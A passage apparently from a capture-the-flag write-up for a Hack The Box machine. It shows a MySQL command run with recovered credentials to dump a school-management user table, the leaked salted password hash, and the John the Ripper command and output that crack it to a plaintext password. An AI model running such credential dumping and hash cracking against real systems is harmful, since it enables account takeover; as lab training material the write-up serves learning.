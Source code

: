 ```

```

> .\mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "USE gibbon; SELECT * FROM gibbonperson;" -E

```
                  surname: Frizzle
                firstName: Fiona
            preferredName: Fiona
             officialName: Fiona Frizzle
         nameInCharacters: 
                   gender: Unspecified
                 username: f.frizzle
           passwordStrong: 067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03
       passwordStrongSalt: /aACFhikmNopqrRTVz2489
       passwordForceReset: N
                   status: Full
                 canLogin: Y
      gibbonRoleIDPrimary: 001
          gibbonRoleIDAll: 001
                      dob: NULL
                    email: f.frizzle@frizz.htb
```

crack with john

hash.txt
```
f.frizzle:$dynamic_82$067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03$/aACFhikmNopqrRTVz2489
```

> sudo ~/john/run/john --format=dynamic='sha256(\$s.\$p)' --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

```
$ sudo ~/john/run/john --format=dynamic='sha256($s.$p)' --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
[sudo] password for kali: 
Using default input encoding: UTF-8
Loaded 1 password hash (dynamic=sha256($s.$p) [128/128 AVX 4x])
Warning: no OpenMP support for this hash type, consider --fork=4
Note: Passwords longer than 36 [worst case UTF-8] to 110 [ASCII] rejected
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
Jenni_Luvs_Magic23 (f.frizzle)     
1g 0:00:00:01 DONE (2025-05-30 06:06) 0.5587g/s 6156Kp/s 6156Kc/s 6156KC/s Jer123..Jeepers93
Use the "--show --format=dynamic=sha256($s.$p)" options to display all of the cracked passwords reliably
Session completed. 

```

> sudo ~/john/run/john --format=dynamic='sha256(\$s.\$p)' --show hash.txt
